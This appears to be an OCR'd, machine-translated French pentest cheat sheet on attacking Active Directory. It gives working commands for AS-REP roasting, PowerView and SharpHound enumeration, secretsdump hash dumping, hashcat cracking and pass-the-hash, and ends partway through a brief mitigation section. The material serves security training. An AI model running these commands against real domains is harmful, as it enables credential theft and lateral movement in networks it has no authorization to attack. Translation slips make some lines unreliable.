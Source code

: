  **GetNPUsers et pré-autorisation Kerberos**
 - Répertoriez les utilisateurs pour lesquels la pré-authentification Kerberos est désactivée.
 - `python3 getnpusers.py htb.local/ -dc-ip 192.168.170.115`
 - Récupérez le HASH des utilisateurs répertoriés
 - `python3 getnpusers.py htb.local/ dc-ip 192.168.170.115 -request`
 - Avec authentification
 - `impacket-GetNPUsers 'search.htb/user:password' -usersfile usernames.txt -dc-ip 'search.htb'`


 **Énumération après compromission AD**
 - Énumération de domaine avec [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
   - Powerview est un outil qui nous permet d'examiner le réseau et d'énumérer essentiellement le contrôleur de domaine, la politique de domaine, le groupe d'utilisateurs, etc.
   - Téléchargez le script PowerView ci-dessus.
   - `powershell -ep bypass`
   - Où, le contournement est une politique d'exécution et cela supprime le blocage de l'exécution du script.
   - Exécutez le programme `.  .\PoweView.ps1`
   - Obtenir des informations sur le domaine `Get-NetDomain`
   - Obtenez des contrôleurs de domaine spécifiques - `Get-NetDomainController`
   - Obtenir la politique de domaine - `Get-DomainPolicy`
   - Obtenez une politique spécifique comme l'accès au système - `(Get-DomainPolicy)."system access"`
   - Obtenez les utilisateurs - `Get-NetUser`
   - Récupérer la liste des utilisateurs - `Get-NetUser | select cn`
   - Obtenir les administrateurs du domaine - `Get-NetGroup -GroupName "Domain Admins"`
   - Liste tous les fichiers partagés sur le réseau - `Invoke-ShareFinder`
   - [Aide-mémoire Powerview](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
 - Aperçu et configuration de Bloodhound
   - `sudo apt install bloodhound`
   - Il fonctionne sur un outil appelé neo4j
   - `neo4j console` - Créez un nouveau passwd.
   - 'chien de sang'
 - Récupérer des données avec Invoke-Bloodhound
   - Téléchargez le script [sharphound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1).
   - Déplacez le fichier sur le PC victime compromis.
   - Activer l'exécution `powershell -ep bypass`
   - Exécutez le script `.  .\SharpHound.ps1`
   - Exécutez le script `Invoke-BloodHound -CollectionMethod All -Domain MARVEL.local -ZipFileName file.zip`
   - Toutes les données sont collectées sur le fichier zip.
   - Déplacer le fichier sur une machine attaquante.
   - Cliquez sur les données de téléchargement et téléchargez le fichier zip

 **Attaques post-compromission AD**
 - Passez l'aperçu du hachage/passwd
   - Si nous déchiffrons un passwd et/ou pouvons supprimer les hachages SAM, nous pouvons exploiter les deux pour les mouvements latéraux dans les réseaux.
   - Passez le passwd : `crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <pass>`
 - Dumping des hachages avec [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)
   - Il fait également partie des outils impacket
   - `secretsdump.py marvel/fcastle:Password1@<ip>`
   - Il sauvegarde les hachages SAM, la clé API DP ainsi que les secrets LSA
   - S'il y a une réutilisation du passwd, le dernier bit du hachage sera le même
 - Cracker les hachages NTLM avec Hashcat
   - `hashcat -m 1000 hashes.txt wordlist.txt -O`
 - Réussissez les attaques de hachage (Pass the Hash)
   - Passez le hachage (Pass the Hash), capturez le dernier bit du hachage avec psexec hashdump : `crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local`
 - Atténuation des attaques de passes (Pass the Hash)
   - Difficile de l'empêcher complètement, mais nous pouvons rendre la tâche plus difficile à un attaquant.
   - Limiter la réutilisation des comptes